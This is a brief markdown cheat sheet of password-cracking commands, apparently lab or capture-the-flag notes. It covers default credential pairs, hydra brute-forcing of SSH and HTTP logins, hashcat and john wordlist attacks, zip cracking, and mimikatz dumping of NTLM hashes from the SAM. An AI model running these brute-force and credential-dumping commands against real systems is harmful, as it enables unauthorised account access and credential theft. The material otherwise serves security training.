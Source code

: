 # Password Cracking

admin:admin admin:password root:root root:toor

Burpsuite if we want to

    john hash --wordlist=/usr/share/wordlists/rockyou.txt --format=md5crypt

    sudo gzip -d rockyou.txt.gz

    hydra -l noman -P /usr/share/wordlists/rockyou.txt -s 2222 ssh://192.168.10.10

    hydra -l noman -P /usr/share/wordlists/rockyou.txt 192.168.10.10 http-post

    hydra -l user -P /usr/share/wordlists/rockyou.txt 192.168.10.10 http-post-form "/index.php:fm_usr=user&fm_pwd=^PASS^:Login failed. Invalid"

    hashcat -b | hashcat.exe -b (linux and window benchmark)

customize wordlists

    head /usr/share/wordlists/rockyou.txt > demo.txt | sed -i '/^1/d' demo.txt

if we want to add 1 in all password then | 

    echo \$1 > demo.rule | hashcat -r demo.rule --stdout demo.txt

    hash-identifier (find hash if simple)

    hashid (if id is available "$2y$10$)

    ssh2john id_rsa > ssh.hash | hashcat -h | grep -i "ssh" (port22)

## Zip Cracking

    fcrackzip -u -D -p '/usr/share/wordlists/rockyou.txt' chall.zip

    zip2john file.zip > zip.john
    john zip.john

## NTLM Crack

    token::elevate (check user permission) | lsadump::sam (dump all user ntlm)

Then

    hashcat -m 1000 nelly.hash /usr/share/wordlists/rockyou.txt -r /usr/share/hashcat/rules/best64.rule --force

